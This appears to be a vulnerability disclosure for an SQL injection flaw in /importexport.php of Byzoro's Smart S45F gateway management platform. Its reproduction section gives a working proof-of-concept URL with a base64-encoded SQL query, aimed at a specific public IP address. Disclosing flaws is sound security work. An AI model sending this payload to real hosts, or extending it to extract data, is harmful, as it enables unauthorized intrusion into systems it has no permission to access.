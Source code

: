 Byzoro's Smart S45F Multi-Service Secure Gateway Intelligent Management Platform has a front-end SQL injection vulnerability.

## 1. Vulnerability Description:
Beijing Byzoro Network Technology Co., Ltd. (https://byzoro.com/) is a high-tech company committed to building the next generation of secure internet.
Byzoro's Smart S45F Multi-Service Secure Gateway Intelligent Management Platform has an SQL injection vulnerability. Attackers can exploit this vulnerability to access sensitive database information, obtain server permissions, and manipulate server files.

## 2. Affected Component:
Smart S45F

## 3. Vulnerability Location:
/importexport.php

## 4. Vulnerability Reproduction:
IP: https://103.121.164.62:8443/
![image-bz1](images/bz1.png)

As shown in the login interface.

Construct POC, successfully obtaining the database name and version:
https://103.121.164.62:8443/importexport.php?sql=c2VsZWN0IDEsZGF0YWJhc2UoKSx2ZXJzaW9uKCk=&type=exportexcelbysql

![image-bz2](images/bz2.png)
